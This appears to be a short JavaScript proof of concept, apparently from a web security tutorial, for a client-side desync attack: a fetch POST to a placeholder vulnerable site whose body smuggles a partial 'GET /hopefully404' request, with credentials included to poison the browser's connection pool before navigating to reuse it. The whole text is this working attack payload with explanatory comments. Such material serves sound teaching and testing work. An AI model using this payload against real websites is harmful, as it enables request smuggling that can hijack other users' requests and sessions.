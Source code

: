 ```javascript
fetch('https://vulnerable-website.com/vulnerable-endpoint', {
    method: 'POST',
    body: 'GET /hopefully404 HTTP/1.1\r\nFoo: x', // malicious prefix
    mode: 'no-cors', // ensures the connection ID is visible on the Network tab
    credentials: 'include' // poisons the "with-cookies" connection pool
}).then(() => {
    location = 'https://vulnerable-website.com/' // uses the poisoned connection
})
```